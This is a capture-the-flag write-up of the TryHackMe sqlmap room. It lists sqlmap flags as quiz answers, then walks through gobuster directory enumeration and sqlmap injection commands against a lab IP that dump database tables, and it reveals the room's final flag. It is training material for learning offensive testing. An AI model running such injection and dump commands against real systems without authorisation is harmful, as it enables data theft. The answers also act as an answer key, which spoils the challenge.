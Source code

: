 ```yaml
---
description: https://tryhackme.com/room/sqlmap
---
```


# SQLMAP

## Task 2 Using Sqlmap

#### Which flag or option will allow you to add a URL to the command?

{% hint style="success" %}
`-u`
{% endhint %}

#### Which flag would you use to add data to a POST request?

{% hint style="success" %}
`--data`
{% endhint %}

#### There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?

{% hint style="success" %}
`-p username`
{% endhint %}

#### Which flag would you use to show the advanced help menu?

{% hint style="success" %}
`-hh`
{% endhint %}

#### Which flag allows you to retrieve everything?

{% hint style="success" %}
`-a`
{% endhint %}

#### Which flag allows you to select the database name?

{% hint style="success" %}
`-D`
{% endhint %}

#### Which flag would you use to retrieve database tables?

{% hint style="success" %}
`--tables`
{% endhint %}

#### Which flag allows you to retrieve a table’s columns?

{% hint style="success" %}
`--columns`
{% endhint %}

#### Which flag allows you to dump all the database table entries?-

{% hint style="success" %}
`--dump-all`
{% endhint %}

#### Which flag will give you an interactive SQL Shell prompt?

{% hint style="success" %}
`--sql-shell`
{% endhint %}

#### You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases?

{% hint style="success" %}
`--dbms=MySQL`
{% endhint %}

## Task 3 SQLMap Challenge

#### What is the name of the interesting directory ?

```bash
gobuster dir -u http://10.10.3.84 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-20-18.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-20-44.png>)

{% hint style="success" %}
`blood`
{% endhint %}

#### Who is the current db user?

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-25-11.png>)

```bash
sqlmap -r req.txt -p blood_group --current-user
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-33-46.png>)

{% hint style="success" %}
`root`
{% endhint %}

#### What is the final flag?

```bash
sqlmap -r req.txt -p blood_group --dbms MySQL --technique U --dbs
sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood --tables
sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood -T flag \
       --dump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-28-43.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-29-24.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-04 13-30-29.png>)

{% hint style="success" %}
`thm{sqlm@p_is_L0ve}`
{% endhint %}
